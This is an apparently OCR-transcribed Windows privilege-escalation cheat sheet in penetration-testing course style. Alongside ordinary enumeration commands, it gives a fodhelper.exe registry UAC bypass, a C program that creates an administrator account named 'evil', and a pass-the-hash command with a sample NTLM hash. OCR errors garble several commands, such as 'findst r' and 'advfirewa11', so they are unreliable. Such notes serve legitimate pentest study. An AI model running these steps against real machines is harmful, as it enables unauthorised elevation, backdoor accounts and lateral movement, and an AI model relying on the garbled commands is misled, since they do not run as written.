## Windows privilege Escalation

* Automated enumeration scripts

```
// https://github.com/pentestmonkey/windows-privesc-check
windows-privesc-check2.exe --dump -a -o report.txt
```

* Enumerating Users

```
whoami
whoami /all		#groups, permissions, etc
whoami /groups	# check cmd integrity level
net user
net user /domain			# AD users
net user <username>
net user jeff_admin /domain # AD user jeff_admin
echo %username%
```

* Get System information

```
systeminfo | findst r /B /C: "OS Name" /C:"OS Version" /C:"System Type"
hostname
```

* Enumerating Running Processes and Services

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

tasklist / SVC
```

* Enumerating Networking Information

```
ipconfig /all
route print
netstat -ano
```

* Enumerating Firewall Status and Rules

```
netsh advfirewa11 show currentprofile
netsh advfirewall firewall show rule name=all
```

* Enumerating Scheduled Tasks

```
schtasks /query /fo LIST /v
```

* Enumerating Installed Applications and Patch Levels

```
// Does not list applications that do not use the Windows Installer
wmic product get name, version, vendor

wmic qfe get Caption, Description, HotFixID, InstaltedOn
```

* Enumerating Readable/Writable Files and Directories

```
accesschk.exe -uws "Everyone" "C:\Program Files"

// powershell cmdlet
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

* Enumerating Unmounted Disks

```
mountvol
```

* Enumerating Device Drivers

```
// list drivers, use powershell to filter output
driverquery.exe / v / fo csv | Convertfrom-CSV | Select-Object 'Display Name', ' Start Mode', 'Path'

// Get driver version and other details 
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

* Enumerating Binaries That AutoElevate

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

// If any of this key is enabled (set to 1), we could craft an MSI file and run it to elevate our privileges.
```

* Elevating Medium to High integrity shell using fodhelper.exe (admin required)

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
C:\Windows\System32\fodhelper.exe
```

* Checking file permissions

```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

* C program to create admin user - compile with gcc to create exeutable

```
#include <stdlib.h>
int main ()
{
int i;
i = system ( "net user evil Ev!lpass /add") ;
i = system ("net localgroup administrators evil /add");
return 0;
}
```

* Pass-The-Hash attacks

```
// https://github.com/byt3bl33d3r/pth-toolkit
kali@kali:~$ pth-winexe -U offsec%aad3b435b51484eeaad3b435b51484ee:2892d26cdf84d7a78e2eb3b9f05c425e //10.11.0.22 cmd
```